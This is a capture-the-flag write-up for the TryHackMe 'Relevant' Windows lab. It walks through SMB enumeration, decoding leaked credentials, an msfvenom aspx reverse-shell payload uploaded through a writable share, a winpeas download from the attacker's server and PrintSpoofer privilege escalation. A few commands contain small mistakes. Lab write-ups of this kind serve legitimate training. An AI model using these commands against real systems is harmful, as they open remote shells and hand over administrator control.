 #tryhackme #ctf 
# Relevant
---

## Nmap
| Port | State | Service | Version |
|-----------|------|---------------|-------------------------|
| 80/tcp    | open | http          | Microsoft IIS httpd 10.0|
| 135/tcp   | open | msrpc         |      Microsoft Windows RPC
| 139/tcp   | open | netbios-ssn   |  Microsoft Windows netbios-ssn 
| 445/tcp   | open | microsoft-ds  | Windows Server 2016 Standard Evaluation 14393 microsoft-ds
| 3389/tcp  | open | ms-wbt-server | Microsoft Terminal Services
| 49663/tcp | open | http          |     Microsoft IIS httpd 10.0
| 49667/tcp | open | msrpc         |    Microsoft Windows RPC
| 49669/tcp | open | msrpc         |    Microsoft Windows RPC

## Smbclient
Use smbclient to list all samba share
`smbclient -L \\\\<machine-ip>`

- *Found shares:*
	- *ADMIN$*
	- *C$*
	- *IPC$*
	- *nt4wrksv*


Connect to *nt4wrksv* share
- *Found passwords.txt* 

Download passwords.txt to attacker machine
`get passwords.txt`

Read the contents on the attacker machine
`cat passwords.txt`

- *Found encoded passwords for users*

Use any online base64 decoder or kali base64 decoder
`cat passwords.txt | base64`

- *Found creds:*
	- **Bob:!P@\$$W0rD!123**
	- **Bill:Juw4nnaM4n420696969!\$$\$**

Use PSExec.py to verify whether the users exist or not (its a windows machine)
- *Bob exists but password is incorrect*
- *Bill does not exist*

*This most probably was a honeypot*


## Gobuster/Dirbuster/Dirsearch
Use gobuster on http port 49963
- *Found /nt4wrksv on port 49963*

*This has the same name as that of samba share*
*To see if it is the same dir used by smb share: 
- Visit **\<machine-ip>:49663/nt4wrksv/passwords.txt** (the file we found using smbclient)
- *Found that it is indeed the same file  and hence the same dir*

Check if we have write permissions on this dir by uploading a file using the smbclient to the same dir and opening again on **\<machine-ip>:49663/nt4wrksv/\<filename>**
- Yes it is!

Use msfvenom to generate payload:
`msfvenom windows/x64/shell_reverse_tcp LHOST=<tun0 ip> LPORT=<port> -f aspx -o pwn.aspx`

Upload this payload to smb share
`put pwn.aspx`

Open a netcat listener on attacker machine:
`rlwrap nc -lvnp <port>`

Now visit **\<machine-ip>/nt4wrksv/pwn.aspx**
- *Gained shell*

`cd \Users\Bob\Desktop` 
`type user.txt`
- *[FLAG 1]*

Windows enumeration ([[Windows-PrivEsc]])

Download winpeas from local python server in the \windows\temp folder ([[Transferring Files]])
`powershell -c "Invoke-WebRequest -Uri 'http://<attacker-ip>:<port>/<path-to-file>' -OutFile 'winpeas.exe'"`
`.\winpeas.exe`


Check privileges
`whoami \priv`
- *We have SeImpersonatePrivilege*

Download [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer) and upload to smb share using smbclient
`put printspoofer.exe`

On the victim machine: 
`cd C:\inetpub\wwwroot\nt4wrksv\` 
`PrintSpoofer.exe -i -c cmd`
- *Gained root shell ;)*

`cd \Users\Administrator\Desktop\`
`type root.txt`
- *[FLAG 2]*

---


